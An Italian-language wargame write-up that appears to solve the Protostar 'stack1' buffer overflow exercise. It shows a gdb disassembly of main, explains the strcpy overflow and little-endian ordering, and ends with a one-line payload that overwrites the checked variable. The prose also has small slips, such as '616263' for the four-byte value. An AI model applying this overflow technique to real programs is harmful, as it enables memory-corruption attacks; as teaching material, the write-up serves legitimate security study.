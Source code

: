 ````
proto@b92cf65f7998:/opt/protostar/bin$ gdb -q                                                      
(gdb) file stack1
Reading symbols from stack1...done.
(gdb) disass main
Dump of assembler code for function main:
   0x08048464 <+0>:	push   %ebp
   0x08048465 <+1>:	mov    %esp,%ebp
   0x08048467 <+3>:	and    $0xfffffff0,%esp
   0x0804846a <+6>:	sub    $0x60,%esp
   0x0804846d <+9>:	cmpl   $0x1,0x8(%ebp)
   0x08048471 <+13>:	jne    0x8048487 <main+35>
   0x08048473 <+15>:	movl   $0x80485a0,0x4(%esp)
   0x0804847b <+23>:	movl   $0x1,(%esp)
   0x08048482 <+30>:	call   0x8048388 <errx@plt>
   0x08048487 <+35>:	movl   $0x0,0x5c(%esp)
   0x0804848f <+43>:	mov    0xc(%ebp),%eax
   0x08048492 <+46>:	add    $0x4,%eax
   0x08048495 <+49>:	mov    (%eax),%eax
   0x08048497 <+51>:	mov    %eax,0x4(%esp)
   0x0804849b <+55>:	lea    0x1c(%esp),%eax
   0x0804849f <+59>:	mov    %eax,(%esp)
   0x080484a2 <+62>:	call   0x8048368 <strcpy@plt>
   0x080484a7 <+67>:	mov    0x5c(%esp),%eax
   0x080484ab <+71>:	cmp    $0x61626364,%eax
   0x080484b0 <+76>:	jne    0x80484c0 <main+92>
   0x080484b2 <+78>:	movl   $0x80485bc,(%esp)
   0x080484b9 <+85>:	call   0x8048398 <puts@plt>
   0x080484be <+90>:	jmp    0x80484d5 <main+113>
   0x080484c0 <+92>:	mov    0x5c(%esp),%edx
   0x080484c4 <+96>:	mov    $0x80485f3,%eax
   0x080484c9 <+101>:	mov    %edx,0x4(%esp)
   0x080484cd <+105>:	mov    %eax,(%esp)
   0x080484d0 <+108>:	call   0x8048378 <printf@plt>
   0x080484d5 <+113>:	leave  
   0x080484d6 <+114>:	ret    
End of assembler dump.
````
Da questa istruzione assembly possiamo notare che il main esegue un controllo se una var X ha come valore 616263 che in ascii è "abcd"
0x080484ab <+71>:	cmp    $0x61626364,%eax
Ricorda che siamo in little eldian, quindi la stringa sarà inviata come "dcba"
L'operazione di sottrazione è uguale a quella di #stack0
Il payload di attacco è il seguente:
````
./stack1 $(python3 -c 'print("A"*64 + "dcba")')
````

